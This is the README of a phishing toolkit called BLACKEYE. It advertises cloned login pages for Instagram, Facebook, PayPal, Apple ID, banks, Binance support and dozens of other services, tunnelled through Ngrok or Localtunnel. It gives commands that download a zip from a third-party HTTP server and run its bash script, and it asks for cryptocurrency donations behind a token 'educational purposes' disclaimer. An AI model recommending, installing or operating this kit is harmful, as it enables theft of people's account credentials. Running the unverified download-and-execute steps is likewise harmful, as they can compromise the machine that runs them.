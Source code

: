 ## BLACKEYE v2.0 (Major Update on August 23, 2024 | New: Bank Template, Upcoming Localhost Feature, and More)
##### The tool is completely free now 

> [! Need Donations]
> Your donations play a vital role in expediting the project's completion. With your support, we can swiftly bring this enhanced version to life and continue delivering valuable updates. [1]: [https://www.buymeacoffee.com/myberp] "Buy Me a Coffee (myberp)"

-----------------------------------------------------------------------------------------------------------------------------
![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bkev3.png)

23:08:2024  Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bankofa.png)

[New Binance Email Support Clone for BLACKEYE v3.1 ](https://github.com/EricksonAtHome/bes)

### UPDATES :
##### UPDATES_TMP websites :          

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Line           [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Reddit         
          [07] Origin         [23] MySpace        [39] StackOverflow         
          [08] Yahoo          [24] Badoo          [40] Custom      
                                                  [41] Binance Email Support     
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Tiktok      
          
##### Add:  Localtunnel
##### Update: Ngrok 
###   Contact me on Instagram : @EricksonHolding or on responded.erickson.elite

-----------------------------------------------------------------------------------------------------------------------------
### Coded/Upgraded by: @EricksonAtHome (https://github.com/EricksonAtHome/blackeye)

#### Credits (Copyright)
#### Phishing Pages generated by An0nUD4Y (https://github.com/An0nUD4Y):

#### Description
BLACKEYE is an upgrade from original ShellPhish Tool (https://shellphish.net) by thelinuxchoice under GNU LICENSE. It is the most complete Phishing Tool,  with 32 templates +1 customizable

## Legal disclaimer:
Usage of BlackEye for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

### Usage:
```
curl -O http://dsvr.blackeye.cloud/alld/blackeye.zip
cd blackeye
bash blackeye.sh
```
### Usage PowerShell:
```
Invoke-WebRequest -Uri http://dsvr.blackeye.cloud/alld/blackeye.zip -OutFile blackeye.zip
cd blackeye
bash blackeye.sh
```

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/hiws.png)

### Donate! @EricksonHolding
Donate And Support:
-----------------------------------------------------------------------------------------------------------------------------
BTC: bc1qmz5qmhyfzrm9hn2gnus85exhry64a8zekyzjuu
-----------------------------------------------------------------------------------------------------------------------------
LTC: ltc1qk4cuts4w8202tr2efun4c380n6nsq4eafxlg4k
-----------------------------------------------------------------------------------------------------------------------------
